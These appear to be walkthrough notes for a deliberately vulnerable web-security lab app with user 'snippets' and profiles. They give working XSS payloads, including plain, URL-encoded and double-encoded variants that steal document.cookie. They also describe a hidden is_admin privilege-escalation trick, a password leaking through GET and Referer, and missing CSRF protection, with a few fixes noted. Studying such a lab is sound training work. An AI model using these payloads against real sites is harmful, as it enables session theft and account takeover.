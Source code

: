 # Snippets

Makes a new snippet with "x" as the contents:

```html
<b onmouseover='javascript:window.location.href="newsnippet2?snippet=x"'>bet you can't click me</b>
```

Makes a new snippet that writes the users cookie:

```html
<b onmouseover='javascript:window.location.href="newsnippet2?snippet="+document.cookie'>you can't click this, can you?</b>
```

```html
<img src=x onerror='alert(&quot;xss&quot;)'>
```

```js
exfil=document.createElement("img");
exfil.src="newsnippet2?snippet="+document.cookie;
document.appendChild(exfil);
```

```text
<img src=x onerror='eval("exfil=document.createElement(\"img\");exfil.src=\"newsnippet2?snippet=\"+document.cookie;document.body.appendChild(exfil);")'>
```

```text
gotcha!+%3Cimg+src%3Dx+onerror%3D%27eval%28%22exfil%3Ddocument%2EcreateElement%28%5C%22img%5C%22%29%3Bexfil%2Esrc%3D%5C%22newsnippet2%3Fsnippet%3D%5C%22%2Bdocument%2Ecookie%3Bdocument%2Ebody%2EappendChild%28exfil%29%3B%22%29%27%3E
```


# Profile:

### Profile Color

Need to break out of `style='{color}'` context.

### Homepage

Not restricted to actual URL, can set to `%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E` for stored XSS.

Sanitization is weak (just `<>&"`), so to simply attach some onclick javascript:

```text
' onclick='eval("exfil=document.createElement(\"img\");exfil.src=\"newsnippet2?snippet=\"+document.cookie;document.body.appendChild(exfil);")'
```

To use the "error page" reflection vulnerability:

```text
<script>exfil=document.createElement("img");exfil.src="newsnippet2?snippet="+document.cookie;document.body.appendChild(exfil);</script>
```

double-uri-encode (including dots) to:

```
%253Cscript%253Eexfil%253Ddocument%252EcreateElement%2528%2522img%2522%2529%253Bexfil%252Esrc%253D%2522newsnippet2%253Fsnippet%253D%2522%252Bdocument%252Ecookie%253Bdocument%252Ebody%252EappendChild%2528exfil%2529%253B%253C%252Fscript%253E
```


### Admin

Hidden `is_admin=True` grants admin privilege
- show how to use ZAP to intercept and modify request (or, even Firefox tools to add hidden input)
- alternative is to brute-force the prefixed checksum
- defense: only use stored property, not the query property

# Login

Login is `GET` and password remains displayed in the address bar.  Referer leaks password!


# General

Reflected XSS on error message "page not found", e.g. `/:id/%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E`

- fix is to edit `resources/error.gtl` to append `:text` to the message template-slot

No CSRF protection anywhere.

`feed.gtl` is public, reveals UIDs.
- also vulnerable to stored XSS that exploits JSONP


